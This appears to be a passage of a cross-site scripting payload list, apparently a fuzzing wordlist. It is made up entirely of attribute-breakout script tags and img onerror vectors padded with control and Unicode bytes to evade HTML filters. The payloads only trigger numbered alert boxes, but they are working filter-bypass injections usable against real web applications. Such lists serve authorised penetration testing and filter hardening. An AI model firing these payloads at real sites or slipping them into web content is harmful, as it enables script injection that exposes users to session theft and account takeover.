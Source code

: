 "`'><script>\xE2\x80\x88javascript:alert(137)</script>
"`'><script>\x00javascript:alert(138)</script>
"`'><script>\xE2\x80\xA8javascript:alert(139)</script>
"`'><script>\xE2\x80\x8Ajavascript:alert(140)</script>
"`'><script>\xE1\x9A\x80javascript:alert(141)</script>
"`'><script>\x0Cjavascript:alert(142)</script>
"`'><script>\x2Bjavascript:alert(143)</script>
"`'><script>\xF0\x90\x96\x9Ajavascript:alert(144)</script>
"`'><script>-javascript:alert(145)</script>
"`'><script>\x0Ajavascript:alert(146)</script>
"`'><script>\xE2\x80\xAFjavascript:alert(147)</script>
"`'><script>\x7Ejavascript:alert(148)</script>
"`'><script>\xE2\x80\x87javascript:alert(149)</script>
"`'><script>\xE2\x81\x9Fjavascript:alert(150)</script>
"`'><script>\xE2\x80\xA9javascript:alert(151)</script>
"`'><script>\xC2\x85javascript:alert(152)</script>
"`'><script>\xEF\xBF\xAEjavascript:alert(153)</script>
"`'><script>\xE2\x80\x83javascript:alert(154)</script>
"`'><script>\xE2\x80\x8Bjavascript:alert(155)</script>
"`'><script>\xEF\xBF\xBEjavascript:alert(156)</script>
"`'><script>\xE2\x80\x80javascript:alert(157)</script>
"`'><script>\x21javascript:alert(158)</script>
"`'><script>\xE2\x80\x82javascript:alert(159)</script>
"`'><script>\xE2\x80\x86javascript:alert(160)</script>
"`'><script>\xE1\xA0\x8Ejavascript:alert(161)</script>
"`'><script>\x0Bjavascript:alert(162)</script>
"`'><script>\x20javascript:alert(163)</script>
"`'><script>\xC2\xA0javascript:alert(164)</script>
<img \x00src=x onerror="alert(165)">
<img \x47src=x onerror="javascript:alert(166)">
<img \x11src=x onerror="javascript:alert(167)">
<img \x12src=x onerror="javascript:alert(168)">
<img\x47src=x onerror="javascript:alert(169)">
<img\x10src=x onerror="javascript:alert(170)">
<img\x13src=x onerror="javascript:alert(171)">
<img\x32src=x onerror="javascript:alert(172)">
<img\x47src=x onerror="javascript:alert(173)">
<img\x11src=x onerror="javascript:alert(174)">
<img \x47src=x onerror="javascript:alert(175)">
<img \x34src=x onerror="javascript:alert(176)">
<img \x39src=x onerror="javascript:alert(177)">
<img \x00src=x onerror="javascript:alert(178)">
<img src\x09=x onerror="javascript:alert(179)">
<img src\x10=x onerror="javascript:alert(180)">
<img src\x13=x onerror="javascript:alert(181)">
<img src\x32=x onerror="javascript:alert(182)">
<img src\x12=x onerror="javascript:alert(183)">
<img src\x11=x onerror="javascript:alert(184)">
<img src\x00=x onerror="javascript:alert(185)">
<img src\x47=x onerror="javascript:alert(186)">
